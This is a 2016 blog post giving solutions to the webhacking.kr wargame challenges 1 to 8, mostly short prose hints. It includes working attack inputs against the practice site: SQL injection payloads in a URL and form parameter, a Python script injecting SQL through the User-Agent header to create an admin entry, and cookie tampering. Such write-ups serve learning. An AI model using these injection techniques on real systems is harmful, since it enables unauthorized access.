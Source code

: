 ```yaml
---
layout:     post
title:      "Webhacking Kr"
subtitle:   "Solutions"
date:       2016-01-20 14:00:00
author:     "Heeraj"
header-img: "img/post-bg-02.png"
---
```

<p> If you like to read our old blogs you are welcome, <a href="http://heeraj123.wordpress.com">I4INFO</a> </p>

<p>For the past one week I was focusing on webhacking kr challenges, so I thought I would share the challenges solution that I was able to solve. They challenges were very, hats off to the team who had worked behind it.</p>

<p>Challenge 01</p>

<p>In the first challenge, you have to change cookie value to a number which is in between 5 and 6. In chrome you can use editmycookie or if you are using you could use firebug or any other means</p>

<p>Challenge 03</p>

<p>Its just an game which is very similar to soduku. The number gives you the count of the number of black box is possible. After clearing the you will see an input box, you may guess an sql injection. Then probably right , a simple sql injection but here you have to use pipe, that would be most difficult thing that you will take to figure out. But don't waste your time in trying sqli in input box. Try with burp suite, you can easily exploit.</p>

<blockquote>answer=1010100000011100101011111||1&id=kjkjkfd</blockquote>

<p>Challenge 04</p>

<p>The thing before you something, you recognise more, a base64 encoding. Well when you decrypt you get something 40 length character. 40 is a big clue, If you have hash identifier tool, you may have till now probably got it. Ya sha1, now try to deocde, ya you have to decode you can use some online tool hashkiller. Again you will get the 40 length character. Decode again :)</p>

<p>Challenge 05</p>

<p>In challenge5 you have both the login and join option. In join option when you click, then an alert box comes "Access Denied". When you look at the source you can see a move(),from there you can guess the location of the join(webhacking.kr/challenge/web/web-05/mem/join.php). From there you will be able to get the source code, source code may be difficult to understand. As told in the source code try to make an cookie oldzoombie as well your url should contain the required parameter mode. Then you can join, but to login as admin wouldn't be possible asthere would be one more admin. So you can use username as something as admin%20 and any pass you may like.</p>

<p>Challenge 06</p>

<p>The first part of the  php code in the index.phps would give you the encoded id and password, getting the 20 times encoded and filtered id and pass.Create a cookie.</p>

<p>Challenge 07</p>

<p>This is another sql injection, in this most of the sql statements are filtered, http://webhacking.kr/challenge/web/web-07/index.php?val=13)%0Aunion%0aselect%0a(5-3  </p>

<p>Challenge 08</p>

<blockquote>
import requests<br>
import re<br><br>

url = "http://webhacking.kr/challenge/web/web-02/index.php"<br>
var=""<br>
s = requests.Session()<br>
headers = {'user-agent': "admin','1234','admin'), ('admin"}<br>
r = s.get("http://webhacking.kr/challenge/web/web-08/" , cookies={'PHPSESSID': '7gnluf4pd8uvf06ejsrpp0dbo5'},headers=headers)<br>
res = r.text<br>
print res<br><br>

print "\nNext Request \n"<br>
s = requests.Session()<br>
headers = {'user-agent': "admin"}<br>
r = s.get("http://webhacking.kr/challenge/web/web-08/" , cookies={'PHPSESSID': '7gnluf4pd8uvf06ejsrpp0dbo5'},headers=headers)<br>
res = r.text<br>
print res<br>
</blockquote>

<p>I will come with next part of solution with in days</p>

<p>Thank you for reading the blog! </p>
